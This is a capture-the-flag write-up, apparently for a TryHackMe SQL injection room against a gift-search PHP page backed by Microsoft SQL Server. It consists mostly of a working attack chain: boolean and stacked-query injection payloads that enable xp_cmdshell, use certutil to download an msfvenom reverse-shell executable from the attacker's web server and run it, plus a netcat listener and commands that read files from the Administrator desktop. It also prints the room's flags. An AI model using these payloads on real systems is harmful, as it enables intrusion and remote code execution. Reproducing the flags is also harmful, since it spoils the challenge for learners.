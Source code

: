 # SQL Injection

# Fisrt webpaget that contains the gift-finding feature
In the homepage, we can see a link to the gift-finding feature.
path: /giftsearch.php

# SQL error message - what ODBC Driver is used
/giftresults.php?age='
[Microsoft][ODBC Driver 17 for SQL Server]

# Last result returned in the db
/giftresults.php?age=' OR 1=1 --
THM{a4ffc901c27fb89efe3c31642ece4447}

# Flag in the note file on system
Own IP: 10.10.53.30
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.53.30 LPORT=1337 -f exe -o calc.exe
```
Generate a reverse shell payload
```bash
python3 -m http.server 1338
```
Start a web server to host the payload
Setup cmd execution
http://10.10.110.16/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

Download payload on target
http://10.10.110.16/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.53.30:1338/calc.exe C:\Windows\Temp\calc.exe'; --

```bash
nc -lvnp 1337
```
Start a listener

Detonate the payload
http://10.10.110.16/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\calc.exe'; --


After getting a revshell
```batch
cd C:\Users\Administrator\Desktop
type Note.txt
```

THM{b06674fedd8dfc28ca75176d3d51409e}

# Flag on homepage after restoring website
Run
```batch
C:\Users\Administrator\Desktop\restore_website.bat
```

THM{4cbc043631e322450bc55b42c}

